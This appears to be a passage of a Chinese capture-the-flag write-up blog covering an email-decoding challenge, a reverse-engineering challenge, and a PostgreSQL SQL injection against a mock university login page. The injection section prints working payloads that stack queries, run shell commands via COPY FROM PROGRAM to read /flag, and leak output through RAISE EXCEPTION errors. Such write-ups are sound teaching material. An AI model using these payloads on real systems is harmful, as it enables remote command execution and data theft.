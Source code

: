 > 一年前在给某八个键游戏写小工具的时候，Python 位运算不会溢到符号位的问题困扰了我好久。当时我的解决方案是用 Rust ~~因为我不会 C~~ 写出涉及位运算的相关代码，之后再用 `LoadLibrary` 加载进 Python 计算。没想到，`ctypes` 里就有对应的 C 类型 ... 又学到新东西了。

### ✉️ ✅ 邮件系统功能升级

这道题 neta 了上个月的学生邮箱安全演练。

{%image https://imgsrc.chyk.ink/faedab64034f78f0f10b05d73f310a55b3191c95.webp %}

{%image https://imgsrc.chyk.ink/9a504fc2d562853572e04d05d6ef76c6a7ef6396.webp %}

#### 🐦‍⬛ ✅ admin@trustme.com

题目附件是 `eml` 格式，这个格式我在[新穷铁道](https://geekgame.pku.edu.cn/#/game/misc-erail)就领教过。不过，这次没有用到 `quoted-printable` 编码，只是普通的 base64。解码即可得到 flag。

> trust 牛魔。

#### 🔐 ✅ 统一身份认证

题目伪造了智慧东大的登录网页，使用 PHP + PostgreSQL。一开始我发现密码输入没有检验，想到了是 SQL 注入，但是一顿 MySQL 操作后未果，后来进了二阶段，题目给出提示，才知道是 PostgreSQL。
虽然没办法获取任何 SQL 命令结果，也没有 `nc` 命令用于拿到 Shell，但网页会在错误时直接弹出 PostgreSQL 的报错信息。

拼凑几段报错信息后可以拼出原始的 SQL 查询语句 `INSERT INTO record (username, passsword, time) VALUES ('学号', '密码', NOW());`。通过询问 GPT 得知，可以用 `COPY ... FROM PROGRAM` 在 SQL 语句中运行命令，之后用 `RAISE` 语句在报错信息中显示查询结果。

于是，在密码框中一顿操作拿到 flag。

```postgresql 解题代码
1', NOW()); create table cmd(output text, id serial); insert into record (username, password, time) values ('20240721','1

1', NOW()); copy cmd(output) from program 'cat /flag | base64'; insert into record (username, password, time) values ('20240721','1

1', NOW());
DO $$
DECLARE result TEXT;
BEGIN
    select output into result from cmd order by id desc limit 1;
    RAISE EXCEPTION 'Flag Leaking: %', result;
END;
$$ LANGUAGE plpgsql;
insert into record (username, password, time) values ('20240721','1
```

### 🔨 ⭕ 真正的逆向

#### 🎭 ✅ 假面之下的 Flag

直接 Detect It Easy 起手，在字符串中找到明文 flag。

{%image https://imgsrc.chyk.ink/58ee3d6d55fbb2fb7c11dc36094a20a44623dcd8.webp %}

> 孩子，不要破坏 Ave Mujica 的世界观。
